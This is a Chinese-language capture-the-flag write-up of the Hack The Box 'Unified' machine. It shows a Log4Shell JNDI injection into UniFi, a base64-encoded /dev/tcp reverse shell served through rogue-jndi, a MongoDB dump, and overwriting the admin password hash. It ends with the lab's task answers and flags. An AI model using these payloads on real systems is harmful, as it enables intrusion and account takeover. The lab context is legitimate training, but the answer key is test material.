 ```yaml
---
title: Hack the box Unified题解
tags:
  - HTB
  - 渗透测试
permalink: /archives/35769/
published: 2023-04-03 11:32:28
---
```


> 打这个靶机的时候也是断断续续的，所以里面的目标IP前后对应不上，但是方法都是一样的。

 # 扫端口

```shell
nmap -sC -sV 10.129.96.149
```

![image-20230404171520202](./images/image-20230404171520202.png)

访问8080端口重定向到了8443

看到是`unifi6.4.54`版本的，结合官方给的WP知道这个版本有一个CVE，可以以此为出发点进行攻击

# CVE-2021-44228的利用

## 验证漏洞存在

先验证是不是存在这个漏洞

1. 抓包，因为是`https`的站，所以要对`burpsuite`进行一些设置[Burp Suite抓HTTPS数据包教程](https://blog.csdn.net/zyw_anquan/article/details/47904495)

![image-20230404175013011](./images/image-20230404175013011.png)

然后根据官方的WP，需要把remember的值改成`${jndi:ldap://Tun 0的IP/o=tomcat}`

验证存在

![image-20230404214952373](./images/image-20230404214952373.png)

## 实施攻击

### 漏洞利用环境搭建

> 更新&&安装环境
>
> sudo apt update
>
> sudo apt install openjdk-11-jdk -y
>
> sudo apt-get install maven
>
> 安装工具
>
> git clone https://github.com/veracode-research/rogue-jndi
>
> cd rogue-jndi
>
> mvn package

编译成功

![image-20230404222733175](./images/image-20230404222733175.png)

### 开始攻击

首先对`payload`进行`base64`编码，以防止出现其他的编码问题

```shell
echo "/bin/bash -c '/bin/bash -i >&/dev/tcp/10.10.14.149/4444 0>&1'" | base64
```

![image-20230404223238197](./images/image-20230404223238197.png)

运行RogueJndi-1.1.jar

```shell
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNDkvNDQ0NCAwPiYxJwo=}|{base64,-d}|{bash,-i}" --hostname "10.10.14.149"
```

并监听4444端口

```shell
nc -lnvp 4444
```

> 第一步运行监听命令
>
> 第二步运行`RogueJndi-1.1.jar`
>
> 第三步在`remember`的值改为`${jndi:ldap://Tun 0的IP:1389/o=tomcat}`
>
> 第四步点击`Send`
>
> 然后出现红色和蓝色的长线就代表攻击成功了
>
> 但是黄色的长线第一次运行时是不会出现的，要运行`script /dev/null -c bash`切换成交互式shell才会出现

![image-20230404223823350](./images/image-20230404223823350.png)

## 信息收集

### MongoDB数据库

任务八问`MongoDB`跑在哪个端口上，用命令查看，发现是在27117端口上

```shell
ps aux | grep mongo
```

![image-20230404224950182](./images/image-20230404224950182.png)

任务九又问`MongoDB`的默认数据库名称是什么官方的WP里面说了是`ace`当然也能百度到

然后就是使用`db.admin.find()`方法检索`ace`数据库中的所有文档，并将结果传递给`forEach`方法

```shell
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

![image-20230404225908450](./images/image-20230404225908450.png)

可以看到里面第一个就是`administrator`用户，密码`hash`值保存在`x_shadow`变量中，但是这个值并不能被任何的密码工具破解。那就换个思路，不能破解，那就替换，WP中提到可以用`mkpasswd`命令去实现加密一个新的密码

> 原密码前面有$6$，特征符，代表使用的sha-512进行的加密，所以我们也要同样的方式进行加密新密码
>
> > SHA-512的科普：
> >
> > SHA-512 算法的安全性基于其数学原理和算法复杂度。由于它的输出长度很长，因此很难通过暴力攻击等方法破解。它是目前最常用的哈希算法之一，也被广泛应用于数字签名、密码学加密和数据完整性验证等领域。

![image-20230404230727942](./images/image-20230404230727942.png)

### 更新密码

```shell
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$W8lv9ywfFDfMVM8a$CPn2fYW3L2rlWhKQy8kuef8Vs/SHgwfwhr18ZzJ/K3OMWZeNmMrpoAaranjl/q3.7K3VYZHBPdp2EVnQB3Jq00"}})'
```

### 登录后台

用更新了的密码成功登录后台

![image-20230404231823711](./images/image-20230404231823711.png)

### 找ssh密码

> 点击那个齿轮图标，然后点击Site，滑到页面最底部看到ssh的密码，点那个眼睛可以看到密码

![image-20230404232536565](./images/image-20230404232536565.png)

### ssh连接

> 到这就完事了，`user.txt`在`/home/michael`目录下

![image-20230404232956730](./images/image-20230404232956730.png)

# 答案

>1. 22,6789,8080,8443
>2. UniFi Network
>3. 6.4.54
>4. CVE-2021-44228
>5. ldap
>6. tcpdump
>7. 389
>8. 27117
>9. ace
>10. db.admin.find()
>11. db.admin.update()
>12. NotACrackablePassword4U2022
>13. 6ced1a6a89e666c0620cdb10262ba127
>14. e50bc93c75b634e4b272d2f771c33681

# 参考博客

- [HackTheBox - Unified](https://blog.csdn.net/qq_45862635/article/details/125350250)

- [hack the box靶场unified靶机](https://blog.csdn.net/zr1213159840/article/details/123697698)
